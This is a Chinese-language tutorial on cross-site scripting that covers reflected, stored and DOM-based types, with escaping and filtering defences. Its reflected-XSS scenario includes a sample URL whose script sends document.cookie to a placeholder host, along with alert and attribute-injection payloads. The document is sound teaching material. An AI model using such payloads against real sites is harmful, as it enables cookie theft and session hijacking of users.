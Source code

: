 ## 跨站脚本攻击(Cross-site Script)
- <strong>说明</strong>：攻击者通过web页面插入恶意的script代码，当用户访问页面时，嵌入在页面里的script代码会被执行，窃取用户的敏感信息(例如获取用户的 Cookie、导航到恶意网站、携带木马等)，达到而已攻击的目的。
- <strong>本质</strong>：xss攻击其实是因为浏览器将用户的输入内容，错误地当成了js脚本执行，导致了不好的后果。
- <strong>要点</strong>：大部分的 XSS 漏洞都是由于没有处理好用户的输入，导致恶意脚本在浏览器中执行。任何输入提交数据的地方都有可能存在 XSS。

#### XSS攻击的攻击类型
* ##### Reflected XSS（基于反射的XSS攻击）
用户在页面输入框中输入数据，通过 get 或者 post 方法向服务器端传递数据，输入的数据一般是放在 URL 的 query string 中，或者是 form 表单中，如果服务端没有对这些数据进行过滤、验证或者编码，直接将用户输入的数据呈现出来，就可能会造成反射型 XSS。反射型 XSS 是非常普遍的，其危害程度通常较小，但是某些反射型 XSS 还是会造成严重后果的。
* <strong>重点</strong>：黑客通常通过构造一个包含 XSS 代码的 URL，诱导用户点击链接，触发 XSS 代码，达到劫持访问、获取 cookies 的目的。
###### 场景示例：
```
1. 做个假设，当亚马逊在搜索书籍，搜不到书的时候显示提交的名称。

2. 在搜索框搜索内容，填入“<script>alert('handsome boy')</script>”, 点击搜索。

3. 当前端页面没有对返回的数据进行过滤，直接显示在页面上， 这时就会alert那个字符串出来。

4. 进而可以构造获取用户cookies的地址，通过QQ群或者垃圾邮件，来让其他人点击这个地址：

http://www.amazon.cn/search?name=<script>document.location='http://xxx/get?cookie='+document.cookie</script>

PS：这个地址当然是没效的，只是举例子而已。
```
###### 防范措施：
- 前端在显示服务端数据时候，不仅是标签内容需要过滤、转义，就连属性值也都可能需要。

- 后端接收请求时，验证请求是否为攻击请求，攻击则屏蔽。
```
标签：

<span><script>alert('handsome boy')</script></span>
转义

<span>&lt;script&gt;alert(&#39;handsome boy&#39;)&lt;/script&gt</span>
属性：

如果一个input的value属性值是

琅琊榜" onclick=javascript:alert('handsome boy')
就可能出现

<input type="text" value="琅琊榜" onclick=javascript:alert('handsome boy')">
点击input导致攻击脚本被执行，解决方式可以对script或者双引号进行过滤。
```
![反射型攻击](http://upload-images.jianshu.io/upload_images/11994763-4fb13f0a235e05b6?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
* ##### Stored XSS（基于存储的XSS攻击）
存储型攻击方式和反射型最大的区别就是不通过URL来传播，而是利用站点本身合法的存储结构，比如评论。任何用户都可以通过站点提供的接口提交评论内容，这些评论内容都被存储到服务器的数据库。当用户访问这些评论的时候，服务器从数据库提取内容插入到页面反馈给用户。如果评论内容本身是具备攻击性内容，用户无一幸免。
![存储型攻击](http://upload-images.jianshu.io/upload_images/11994763-e1f821758ee1d047?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
* ##### DOM-based or local XSS（基于DOM或本地的XSS攻击）
![DOM型xss攻击](http://img.blog.csdn.net/20171026172334214?)

#### XSS脚本攻击案例
- [新浪微博XSS攻击](http://soft.yesky.com/security/156/30179156.shtml)
- [人人网遭受XSS攻击](https://www.freebuf.com/articles/6295.html)

#### 参考资料
* [Web 安全之 XSS](http://web.jobbole.com/94665/?utm_source=blog.jobbole.com&utm_medium=relatedPosts)
* [浏览器是如何解码的](http://xuelinf.github.io/2016/05/18/%E7%BC%96%E7%A0%81%E4%B8%8E%E8%A7%A3%E7%A0%81-%E6%B5%8F%E8%A7%88%E5%99%A8%E5%81%9A%E4%BA%86%E4%BB%80%E4%B9%88/)
